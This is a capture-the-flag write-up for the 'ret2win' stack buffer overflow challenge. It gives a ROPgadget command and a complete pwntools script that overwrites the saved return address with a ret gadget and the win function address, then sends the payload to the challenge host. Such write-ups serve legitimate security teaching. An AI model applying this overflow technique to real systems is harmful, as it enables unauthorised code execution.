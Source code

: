 ```yaml
---
description: Binary Exploitation
---
```


# ret2win

> _Buffer overflow di stack bisa kita gunakan untuk overwrite saved RIP. Kita bisa overwrite dengan alamat fungsi win untuk menjalankannya._
>
> _Author: zran_

{% file src="../../.gitbook/assets/ret2win1.zip" %}

Simple buffer overflow challenge, but the only roadblock for me was _stack alignment_ on the remote so i learned how to use ROPgadget to find a simple ret gadget to solve this.

```
$ ROPgadget --binary ret2win | grep 'ret'
...
0x000000000040118f : nop ; ret
...
```

This was the solver script:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
# This exploit template was generated via:
# $ pwn template ret2win --host playground.tcp1p.team --port 19000
from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF(args.EXE or 'ret2win')

# Many built-in settings can be controlled on the command-line and show up
# in "args".  For example, to dump all data sent/received, and disable ASLR
# for all created processes...
# ./exploit.py DEBUG NOASLR
# ./exploit.py GDB HOST=example.com PORT=4141 EXE=/tmp/executable
host = args.HOST or 'playground.tcp1p.team'
port = int(args.PORT or 19000)


def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
gdbscript = '''
tbreak main
continue
'''.format(**locals())

#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================
# Arch:     amd64-64-little
# RELRO:      Partial RELRO
# Stack:      No canary found
# NX:         NX enabled
# PIE:        No PIE (0x400000)
# SHSTK:      Enabled
# IBT:        Enabled
# Stripped:   No

io = start()

ret = p64(0x40118f)
win = p64(0x401216)

payload = b'A' * 120
payload += ret
payload += win
log.info(payload)

log.info(io.clean())
io.sendline(payload)
log.info(io.clean())
io.interactive()
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
